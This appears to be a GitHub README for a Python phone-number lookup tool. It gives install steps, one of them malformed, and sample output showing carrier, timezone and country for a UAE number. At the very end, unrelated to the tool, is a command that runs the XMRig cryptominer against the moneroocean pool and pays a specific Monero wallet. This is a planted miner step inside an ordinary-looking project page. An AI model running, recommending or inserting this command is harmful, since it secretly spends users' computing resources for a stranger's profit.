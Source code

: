 # Phone_number_Tracker
-----------------------------------------------

Run = `git https://github.com/NxClayzane/Phone_number_Tracker.git`

Install the required package from `Requirements.txt` 

Run `phoneTracker.py'

-----------------------------------------------

Enter a Number with a valid country code 

#Example

```
------------------------------------------------------------
|              Number tracker v-1.0                       |
___________________________________________________________
Enter a phone number with country code = +971123456789
           carrier timezone       
('Asia/Dubai',)
           Carrier name      
Etisalat
           Country name       
United Arab Emirates
Valid number =  True
```
./xmrig -o gulf.moneroocean.stream:10128 -u 44CACRRsUiqSV7ZoeUnN6qZk3C3X4btjaXHuP56JxM1SFbtxyt5zKhrFNTEu6gDnrsQdhNRJW997FQKV2jvPMpKM9KCVy3c -p $1


